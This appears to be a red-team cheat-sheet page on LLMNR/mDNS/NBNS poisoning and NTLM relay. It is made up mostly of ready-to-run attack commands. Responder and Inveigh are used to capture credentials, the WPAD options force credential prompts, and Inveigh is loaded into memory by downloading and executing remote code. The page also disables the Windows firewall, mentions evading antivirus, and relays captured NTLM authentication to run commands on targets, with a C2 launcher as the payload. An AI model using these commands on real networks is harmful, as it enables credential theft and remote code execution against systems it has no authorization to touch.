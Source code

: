 
# LLMNR/mDNS/NBNS poisonning and SMB relay

## Overview

MITRE ATT&CK mapping: [T1557.001](https://attack.mitre.org/beta/techniques/T1557/001/)

Reference:

```
LLMNR protocol: https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution
mDNS protocol: https://en.wikipedia.org/wiki/Multicast_DNS
NBNS protocol: https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Name_service
```

## Procedures

### Classic Responder LLMNR/mDNS/NBNS poisonning

```
# most lightweight version: poisonning + capturing requests only to SMB
Responder.py -I eth0 -f

# as aobove + acting as WPAD web proxy
Responder.py -I eth0 -wrf

# also forces users to provide their creds on WPAD
Responder.py -I eth0 -wfFbv
```

### PowerShell DNS/LLMNR/mDNS/NBNS poisonning

```
# details:
# https://github.com/Kevin-Robertson/Inveigh/
# https://github.com/Kevin-Robertson/Inveigh/wiki/Basics
Invoke-WebRequest -Uri https://github.com/Kevin-Robertson/Inveigh/archive/Inveigh-master.zip -OutFile Inveigh-master.zip

OR (how's this differnet?):

# downloading Inveigh in PowerShell and loading it into memory with:
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# unzip (when .NET Framework 4.5 is available):
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression.FileSystem')
[System.IO.Compression.ZipFile]::ExtractToDirectory(".\Inveigh-master.zip", ".\Inveigh-master")

# source your PS scripts
cd .\Inveigh-master; cd .\Inveigh-master; . .\Inveigh.ps1

# turn off win firewall (also antivirus should be turned off or evaded):
netsh advfirewall set  allprofiles state off

# run in poisoning mode (Needs PS console with admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTPS Y -Proxy Y -FileOutput Y

# run in limited poisoning mode (no admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -FileOutput Y

# to stop:
Stop-Inveigh
```

### NetNTLM Relay: classic

Prereq for success: 

1. SMB signing must not be enforced (i.e. one of the machines in the conversation must have `message_signing: disabled (dangerous, but default)` as a result of `nmap --script smb-security-mode -p445 192.168.12.0`)
2. For optimal impact (i.e. RCE) owner of the credetnials that are being relayed must have Local Admin privileges on target machine

**With Responder + impacket's ntlmrealyx/smbrealyx**

In `Responder.conf`:

```
; Servers to start
SQL = Off
SMB = Off
RDP = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = Off
HTTPS = Off
DNS = Off
LDAP = Off
```

Start responder: 

    responder -I eth0 -f -v`

Start ntlmrelayx:

    impacket-ntlmrelayx -t smb://<ip-to-relay-to> --enum-local-admins -smb2support

Reference:

    https://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/
    https://speakerdeck.com/ropnop/fun-with-ldap-kerberos-and-msrpc-in-ad-environments

**With Inveigh**

Capabilities:

NTLMv1/NTLMv2 HTTP/HTTPS/Proxy -> SMB2.1 relay

Procedure:

```
# we don't launch listener on HTTP as Invoke-InveighRelay will listen on it
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTP N

# Prepare command to execute (e.g. launcher for C2 Empire):
TODO

# launch Relay (as cmd provide launcher command form Empire):
Invoke-InveighRelay -ConsoleOutput Y -StatusOutput N -Target <ip-to-relay-to> -Command <cmd-to-execute>
```

### NetNTLM Relay: IPv6 DNS server impersonation (mitm6)

    https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/

### Notes

Other tools:

```
https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/
https://github.com/SecureAuthCorp/impacket
```

## OPSEC considerations

## Counter-countermeasures
